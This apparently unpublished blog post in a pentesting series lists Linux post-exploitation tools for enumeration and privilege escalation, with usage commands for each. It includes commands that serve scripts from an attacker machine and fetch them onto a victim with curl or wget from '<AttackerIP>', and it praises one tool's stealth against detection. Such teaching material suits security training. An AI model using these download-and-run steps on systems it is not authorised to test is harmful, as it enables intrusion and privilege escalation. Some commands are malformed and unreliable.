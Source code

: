 ```yaml
---
layout: post
published: false
title: Linux Post Exploitation 10.3
---
```

## Linux Automated Scripts


## Introduction 

In this blog post we will discuss some tools for performing our post exploitation processs, and save our time and efforts.


## Post Enumeration Scripts 


**LinEnum.sh**

``
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
``

This script is used to perform linux post enumeration/local linux enumeration and privilege escalation checks.

**How to use?** 

You need download it in target machine using wget or curl.

You can also use python,php,ruby or nc to start http static web server.

Python
``
python -m SimpleHTTPServer 8080
``
``
python3 -m http.server 80
``
PHP
``
php -S localhost:80
``
Ruby
``
ruby -run -ehttpd . -p80
``
Netcat
``
while true ; do nc -l 80 < LinEnum.sh
``

**Downloading using curl and wget**
``
curl -x -o LinEnum.sh http://<AttackerIP>/LinEnum.sh
``
wget
``
wget http://<AttackerIP>/LinEnum.sh
``

``
chmod +x LinEnum.sh
``
``
./LinEnum.sh
``
And it will automate the post enumeration process and give the valuable result


**Pspy**

This tool monitor's linux processes without root permissions  

Download its binary in your attacker system, start local server as before, and download it in victim's machine.

After download execute it and it will perform monitoring for you.


**Linux exploit suggestor**

https://github.com/InteliSecureLabs/Linux_Exploit_Suggester

Linux_Exploit_Suggester suggest's exploits based on operating system release number, which helps attacker to exploit the target.


**Searchsploit**
We have discussed this tool in previoys phases, it can also help us to check particular exploit for target.


**Kernelpop**

https://github.com/spencerdodd/kernelpop

kernel privilege escalation enumeration and exploitation framework.


download it from link above
``
$ cd kernelpop
$ python3 kernelpop.py
``
It will automate kernel vulnerability enumeration and exploitation

**Bashark**

Bashark aids pentesters and security researchers during the post-exploitation phase of security audits.
Usage

To launch Bashark on compromised host, simply source the bashark.sh script from terminal: $ source bashark.sh Then type help to see Bashark's help menu

Features

* Single Bash script
* Lightweight and fast
* Multi-platform: Unix, OSX, Solaris etc.
* No external dependencies
* Immune to heuristic and behavioural analysis
* Built-in aliases of often used shell commands
* Extends system shell with post-exploitation oriented functionalities
* Stealthy, with custom cleanup routine activated on exit
* Easily extensible (add new commands by creating Bash functions)
* Full tab completion

``
wget https://raw.githubusercontent.com/TheSecondSun/Bashark/master/bashark.sh
``

and simply run it
``
chmod +x bashark.sh
``
./bashark.sh
``

**Linuxprivchecker**

Enumerates system configurations and check for privilege escalation

wget //www.securitysift.com/download/linuxprivchecker.py

``
python3 linuxprivchecker.py
``
**linux-exploit-suggester-2**

Linux_Exploit_Suggester-2 is the extended version of previous Linux_Exploit_Suggester used to find linux privelege escalation vulnerabilities in system. 

``
git clone //github.com/jondonas/linux-exploit-suggester-2.git
``
``
cd linux-exploit-suggester-2
``
``
./linux-exploit-suggester-2.pl
``

**BeRoot**
Privilege Escalation Project - Windows / Linux / Mac 
BeRoot Project is a post exploitation tool to check common misconfigurations to find a way to escalate our privilege.
It has been added to the pupy project as a post exploitation module (so it will be executed in memory without touching the disk).

For now we are using it for linux

Features of BeRoot:

* Check Files Permissions

* SUID bin

* NFS root Squashing

* Docker

* Sudo rules

* Kernel Exploit

``
wget https://raw.githubusercontent.com/AlessandroZ/BeRoot/master/Linux/beroot.py
``
``
chmod +x beroot.py
``
``
./beroot.py
``



## Conclusion 

_**We have discussed some automated scripts which can help us during post exploitation. I suggest to check them in your system to know about their work.**_
